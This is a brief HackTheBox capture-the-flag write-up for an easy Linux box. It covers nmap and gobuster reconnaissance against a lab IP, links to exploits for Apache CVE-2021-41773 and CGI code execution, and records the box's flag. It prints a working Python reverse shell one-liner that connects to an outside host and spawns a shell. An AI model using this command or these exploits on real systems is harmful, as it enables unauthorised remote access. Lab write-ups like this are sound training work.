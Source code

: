 ## Reconnaissance

### nmap 

```
nmap -sC -sV -O -oN apacheCGI_full 10.129.96.43
```

![](./IMG/0.png)

```
nmap -p- -sV --reason -oN apacheCGI_full 10.129.96.43
```

![](./IMG/1.png)


### Path Brute Force

```
gobuster dir -u http://10.129.96.43 -w /usr/share/wordlists/dirb/common.txt
```

![](./IMG/2.png)


![](./IMG/3.png)


### CGI Path

![](./IMG/4.png)


### Search Exploit 

![](./IMG/5.png)

![](./IMG/6.png)

- [Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/50383)
- [Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution](https://www.exploit-db.com/exploits/29290)

## Exploit 

- [(GITHUB)CVE-2021-41773](https://github.com/thehackersbrain/CVE-2021-41773/blob/main/exploit.py)

![](./IMG/7.png)

![](./IMG/8.png)

- persistance 
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.17.145",1336));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

- Get flag : 
```
d28de5b21a255f7a8daf988aa8e3abeb
```

![](./IMG/9.png)
## Privilege Escalation


## Reference 

### Privilege Escalation Tips

- [Linux for Pentester: Find Privilege Escalation](https://www.hackingarticles.in/linux-for-pentester-perl-privilege-escalation/)
- [GTFOBins](https://gtfobins.github.io/#chsh)
### Others

- [Wget – Download files to Specific Directory](https://tecadmin.net/wget-download-files-to-specific-directory/)
- [Reverse Shell generator](https://www.revshells.com/)

###### tags: `HackTheBox` `linux` `VeryEasy` `Shellshock` `CGI`
 
